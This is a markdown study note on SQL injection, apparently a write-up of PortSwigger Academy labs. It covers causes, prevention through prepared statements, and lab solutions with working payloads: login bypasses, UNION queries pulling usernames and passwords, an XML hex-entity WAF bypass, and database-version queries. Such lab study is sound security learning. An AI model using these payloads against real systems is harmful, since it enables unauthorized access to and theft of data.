


# [SQLi](https://portswigger.net/web-security/sql-injection)

Causes: 

- weak input validation, unparameterized queries, string concatenation to craft queries
- improper access control
- deprecated function from libraries...

Impact: unauthorized access to sensitive data

Categories: 

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): modify a SQL query → get additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): change a query → subvert the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks): retrieve data from n tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind): the results of a query are not shown in the app's responses.

Prevention:  

- using parameterized queries/ prepared statements

Instead of using this:

```c#
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Using this: 

```c#
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); 
statement.setString(1, input); 
ResultSet resultSet = statement.executeQuery();
```

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Apprentice 

### Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

- using burpsuite to intercept and modify request
- modify directly the url 

https://0a32007d0320a7ec817f2f18001e0033.web-security-academy.net/filter?category=Accessories%27+or+1=1--




### Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)


Method 1: Modify the `username` parameter, giving it the value: `administrator'--`

Method 2: Modify the `password` parameter to the value: `'or 1=1 --`

==> login successfully as `administrator`




## Practitioner

### Lab 1: [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Take input from 

- query string
- **JSON-format input**
- **XML-format input**

Step 1: Observation


- Stock check feature: sends `productId` and `storeId`in XML format

- Send request to tab repeater, try `storeId` with `1+1` or `1 union select null` and observe the result

- 

  

  => attack detected

  

Step 2: Bypass the WAF 

[Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

Encode > dec_entities/hex_entities

`<@hex_entities> 1 union select username || '~' || password FROM users </@hex_entities>>`

Copy its output, and sned in tab repeater:


Log in as admin:


### [Lab 2: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determine the number of columns that are being returned by the query :


Try to add more null values until the server error disappears & the result include `null` value:


### [Lab 3: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

- Determine the number of columns that are being returned by the query and which columns contain text data:

  ```http
  GET /filter?category=Gifts'+union+select+'n33r9','n33r99'+from+dual-- 
  ```


=> you see that both 2 columns return text data (if I query 1 column, it returns server error).  

Search for the query to retrieve the database version from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to craft the sqli payload as follow: 

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```


### [Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)


